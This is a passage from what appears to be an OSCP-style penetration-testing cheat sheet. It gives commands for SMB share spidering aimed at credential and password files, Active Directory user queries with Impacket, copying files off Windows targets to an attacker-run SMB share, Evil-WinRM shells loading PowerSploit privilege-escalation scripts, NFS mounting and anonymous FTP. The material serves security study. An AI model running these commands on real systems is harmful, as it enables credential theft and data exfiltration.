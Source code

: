 - `# smbmap -d DOMAIN -u USER -p PASSWORD --host-file hosts.txt -r -A ".+\.(bat|cmd|ini|kdb|kdbx|key|ps1|reg|txt|vbs)|.*(admin|login|pass|secret|sensitive).*|unattend.*\.xml|web.config" --depth 3`   
- Query AD users in domain from Kali with known credentials:    
  `# /opt/impacket/examples/GetADUsers.py -all domain.local/user1:Str0ngP@ss2021 -dc-ip 192.168.10.1`   
- Search interesting files using MANSPIDER:   
  `manspider host.domain.local --sharenames generalshare -e bat ps1 cfg conf kdbx rtsz -d domain.local -u user1 -p somepass`   

Get files from SMB share:  
- /usr/share/doc/python-impacket/examples# python smbclient.py 10.11.1.136  
- `shares` --> list shares  
- `use <share>` --> use share xyz   
- `get <file>` --> download file  
Or with smbget:  
- `smbget -R smb://1.1.1.1/folder`  

Transfer files from the Kali VM with smbserver.py:  
- `python /usr/lib/python2.7/dist-packages/impacket/smbserver.py share /root/Desktop/OSCP/SMB/SMBServer/`  
- on the Windows target, get the connection to the share with e.g.: `net use \\<kali-ip>\share`  
- copy the file from the remote target to the kali: `copy file.txt \\<kali-ip>\share\


## WinRM
- WinRM from Linux: https://github.com/Hackplayers/evil-winrm  
  `# ruby evil-winrm.rb -i 10.10.10.169 -u Hans -p 'Wurst123!' -s /opt/PowerSploit/Privesc/`  
  `*Evil-WinRM* PS C:\Users\Hans\Documents> PowerUp.ps1`  
  Now, locate all imported functions with "menu"   
- Evil-WinRM with custom scripts:   
  `# locate PowerSploit/Privesc/Privesc.psd1`   
  `/opt/PowerSploit/Privesc/Privesc.psd1`   
  `# ruby evil-winrm.rb -i 10.10.10.169 -u Hans -p 'Wurst123!' -s /opt/PowerSploit/Privesc/`   

## WMI Commands
- You can run WMI commands remotely without using WinRM / PSExec:   
  [WMI doc](wmi.md)   

## NFS
 - `nmap -p 111 --script=nfs* -iL nfstargets.txt`  
   example output:  
   `PORT    STATE SERVICE`  
   `111/tcp open  rpcbind`  
   `| nfs-ls: Volume /home`  
   `|   access: Read Lookup NoModify NoExtend NoDelete NoExecute`  
   Mount the dir:  
  `mkdir nfsmount; sudo mount -o nolock 10.11.1.72:/home ~/nfsmount/`  

## FTP
- First check for anonymous access  
  `ftp $targetip`  
  `Username: anonymous`  
  `Password: anything`  
